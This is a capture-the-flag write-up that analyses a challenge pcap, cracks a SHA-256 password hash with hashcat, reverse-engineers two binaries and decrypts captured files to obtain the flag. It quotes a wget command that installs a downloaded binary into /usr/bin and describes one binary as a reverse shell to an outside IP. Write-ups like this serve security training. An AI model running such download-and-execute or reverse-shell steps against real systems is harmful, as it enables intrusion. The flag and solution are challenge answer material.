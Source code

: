 # The Victims of Lytton Labs

## Flavor Text

Using the _LYTTON LABS Packet Capture file (pcap-challenge-final.pcapng)_ from _LYTTON LABS 01_, find the tool and the password to decrypt the encrypted files.

## How to solve it?

We are given a pcap file called **"pcap-challenge-final.pcapng"** and we need to find: 

- some encrypted file
- the tool to decrypt them
- the password to decrypt them

We can run strings on the file to find some useful information:

```strings pcap-challenge-final.pcapng | sort | uniq | grep "dec"```

> 08-22-21  05:45PM                  194 secret_decoder.bin
--2021-08-22 17:55:35--  http://192.168.100.105/secret_decoder.bin
GET /secret_decoder.bin HTTP/1.1
PASS december
RETR /TOOLS/secret_decoder.bin
-rwxr-xr-x  1 luciafer luciafer      194 Aug 22 17:43 secret_decoder.bin
sudo wget -O /usr/bin/ll-connect.bin http://192.168.100.105/secret_decoder.bin

Ok there is a file called **"secret_decoder.bin"**

```strings pcap-challenge-final.pcapng | sort | uniq | grep "pass"```

> 
08-07-21  09:25PM                   64 encryption-password-cgeschickter.txt
env_reset, mail_badpass,
PASS password
PASS password1
passport
passport.baidu.com
RETR /SECRET/encryption-password-cgeschickter.txt

There is another file called **"encryption-password-cgeschickter.txt"**

```strings pcap-challenge-final.pcapng | sort | uniq | grep ".exe"```

> 08-07-21  09:07PM               105984 lytton-crypt.exe
RETR /TOOLS/lytton-crypt.exe
-rw-r--r--  1 root     root       105984 Aug 21 23:16 lytton-crypt-recovered.exe

And there we have the encryption file **"lyton-crypt.exe"**

We can see that most of the files were access using RETR, that's an FTP command, so we can retrieve the data from the files using Wireshark and filtering for FTP-DATA.

Let's first look for the password

### Password

![Image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Deadface%202021/Images/Pasted%20image%2020211016004636.png)

If we open that package we can see a long string that looks hashed:

>    75AC98147C07752767E09EF781CF998E401D19B01E30CBAA5109D6AD7EC9A174

We can run ```hash-identifier```  on it

![Image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Deadface%202021/Images/Pasted%20image%2020211016004820.png)

We can use ```hashcat``` to try and break it, I will first try SHA-256 (module 1400 in hashcat) with the rockyou.txt wordlist

```hashcat.exe -m 1400 hashes.txt rockyou.txt -O```

We cracked it, the password is **"demagorgon"**

### Retrieving the Files

We can retrieve the **"secret_decoder.bin"** and **"lyton-crypt.exe"** files by right-clicking in their packages and Follow TCP Stream, then we can copy the raw data of the package and save it on our computer.

#### secret_decoder.bin

We can find out the type of file by running ```file``` on it 

```file secret_decoder.bin```

> ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header

So is an executable, we can open it on Ghidra or Binary Ninja to see what does it do.

I first try opening it with Ghidra but it was not working properly so I opened  it with Binary Ninja

![Image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Deadface%202021/Images/Pasted%20image%2020211016010007.png)

If we analyze the code we can see that it opens a socket in the IP address ```242.29.0.0``` and then runs /bin/sh on it.

Weird, that's not decoding anything, it is probably some obfuscation to confuse us.

### lyton-crypt.exe

This one is supposed to be the file used to encrypt the other files, we can analyze it on Ghidra first.

If we see the functions we can find some interesting ones:

- usage

```
void usage(undefined8 param_1)

{
  __fprintf_chk(stderr,1,"Usage is: %s -[orc][-sN] file1 file2..\n",param_1);
  fwrite("  -o Write output to standard out\n",1,0x22,stderr);
  fwrite("  -r Do NOT remove input files after processing\n",1,0x30,stderr);
  fwrite("  -c Do NOT compress files before encryption\n",1,0x2d,stderr);
  fwrite("  -sN How many times to overwrite input files with random data\n",1,0x3f,stderr);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

So this one is actually used to encrypt the files. 

![Image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Deadface%202021/Images/Pasted%20image%2020211016010458.png)

Hmmm we have a Decrypt function but it does not say anything about it on the usage, it is probably some hidden functionality

We can try to encrypt a file with any password, and then try to "encrypt" it again to see if it works 

```./lyton-crypt.exe anyfile``` 

> Encryption key:
Again:

Ok the file is pretty much decrypted and it now has the .lcr extension, now let's do it again with the same key

```./lyton-crypt.exe anyfile.lcr``` 

> Encryption key:

Hmm, this time it did not ask for the password again and it actually decrypted the file.

### Finding and Decrypting the files

Now we know that the encrypted files have the .lcr extension we can look for them

```strings pcap-challenge-final.pcapng | sort | uniq | grep ".lcr"```

> RETR /MKDELTA/david-k.txt.lcr
RETR /MKDELTA/david-z.txt.lcr
RETR /MKDELTA/ephraim-w.txt.lcr
RETR /MKSEARCH/daniel-s.txt.lcr
RETR /MKSEARCH/donald-m.txt.lcr
RETR /MKULTRA/deirdre-p.txt.lcr
RETR /MKULTRA/terry-i.txt.lcr
RETR /MKULTRA/wendy-p.txt.lcr
RETR /PROJECTMONARCH/ariana-s.txt.lcr
RETR /PROJECTMONARCH/brittney-s.txt.lcr
RETR /PROJECTMONARCH/christina-a-s.txt.lcr

We can retrieve the files the same way we did for the executables, and try to decrypt them with the password "demagorgon".

When decrypting "christina-a-s.txt.lcr", "britney-s.txt.lcr" and "ariana-s.txt.lcr" I get pretty much the same information that when they were encrypted.

But then I tried for "donald-m.txt.lcr" and I got actually readable text

![Image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Deadface%202021/Images/Pasted%20image%2020211016011402.png)

So now we know that the files on the /MKSEARCH/ directory can be decrypted into text, let's try the other one "daniel-s.txt.lcr"

![Image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Deadface%202021/Images/Pasted%20image%2020211016011506.png)

We got the flag!

## Flag 

> flag{D0nt-ME$$-with-The-ZEAL0t!!!}
